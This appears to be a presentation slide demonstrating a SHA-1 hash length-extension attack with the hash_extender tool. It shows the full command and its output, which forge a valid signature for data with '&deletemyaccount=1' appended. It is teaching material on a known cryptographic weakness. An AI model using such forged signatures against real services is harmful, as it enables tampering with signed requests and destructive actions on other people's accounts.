

# hash_extender in action
./hash_extender --data="set_firstname=ron" --append="&deletemyaccount=1" --signature="5e8a886a5f9ca977421ae067cc5655b7f347974d" --format=sha1 --secret=9 --out-data-format=cstr
Type: sha1
Secret length: 9
New signature: b841c5175bbce26b353bcfe3d47acefab1ce26a1
New string: set\x5ffirstname\x3dron\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd0\x26deletemyaccount\x3d1